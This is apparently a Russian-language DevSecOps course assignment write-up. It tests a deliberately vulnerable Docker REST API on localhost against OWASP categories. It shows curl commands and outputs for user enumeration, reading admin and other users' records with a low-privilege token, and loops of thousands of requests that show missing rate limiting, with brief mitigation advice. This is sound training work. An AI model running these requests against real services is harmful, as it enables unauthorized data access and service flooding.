 ## Задание 2
Скачать уязвимый образ с docker.hub, выполнив команду из консоли docker pull ket9/otus-devsecops-owasp-rest
Запустить образ docker run -d -p 8080:8080 ket9/otus-devsecops-owasp-rest:latest
Зайти на http://localhost:8080/, посмотреть, какой функционал доступен в приложении.
Наполнить базу данных, перейдя по ссылке http://localhost:8080/createdb

### A01:2021 – Broken Access Control (Нарушение управления доступом)
```
curl http://localhost:8080/users/v1/register \
     -H "Content-Type: application/json" \
     -d '{"username": "testuser3", "password": "123459", "email": "testuser3@example.com"}'
{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}%

curl http://localhost:8080/users/v1
{"users":[{"email":"mail1@mail.com","username":"name1"},{"email":"mail2@mail.com","username":"name2"},{"email":"admin@mail.com","username":"admin"},{"email":"testuser@example.com","username":"testuser"},{"email":"testuser2@example.com","username":"testuser2"},{"email":"testuser3@example.com","username":"testuser3"}]}
```
Как защититься?
```
Закрыть доступ к /users/v1, требовать аутентификацию.
Фильтровать вывод (например, не показывать email).
Добавить rate limiting на регистрацию.
```
## API1:2023 Broken Object Level Authorization
```
curl -X POST http://localhost:8080/users/v1/login \
     -H "Content-Type: application/json" \
     -d '{"username": "testuser3", "password": "123459"}'
```
С полученным токеном:

curl -X GET http://localhost:8080/users/v1/admin \
     -H "Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9eyJleHAiOjE3NDI3MzczNTgsImlhdCI6MTc0MjczNzI5OCwic3ViIjoidGVzdHVzZXIzIn0P8qJ4ymAxFhiExQHwPz0Ge202Iu0WWfhzkqam29wU2Y"
```
получил ответ:
```
{"username": "admin", "email": "admin@mail.com"}%
```


## API2:2023 Broken Authentication


```
curl -X POST http://localhost:8080/users/v1/login \
     -H "Content-Type: application/json" \     -d '{"username": "testuser3", "password": "123459"}'
{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3NDI3MzgzNTAsImlhdCI6MTc0MjczODI5MCwic3ViIjoidGVzdHVzZXIzIn0.RU0xmFFpjDz5TJAlYoINURvERBgyihJhjPs-8rl8tVE", "message": "Successfully logged in.", "status": "success"}

curl -X GET http://localhost:8080/users/v1/testuser2 \
     -H "Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3NDI3MzgzNTAsImlhdCI6MTc0MjczODI5MCwic3ViIjoidGVzdHVzZXIzIn0.RU0xmFFpjDz5TJAlYoINURvERBgyihJhjPs-8rl8tVE"
{"username": "testuser2", "email": "testuser2@example.com"}%
```

## API4:2023 Unrestricted Resource Consumption
```
or i in {20..30}; do
  curl -X POST http://localhost:8080/users/v1/register \
     -H "Content-Type: application/json" \
     -d "{\"username\": \"testuser$i\", \"password\": \"password123\", \"email\": \"testuser$i@example.com\"}"
done

{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}%
```

или еще один c неограниченным количеством запросов:
```
for i in {1..10000}; do
  curl http://localhost:8080/users/v1
done
```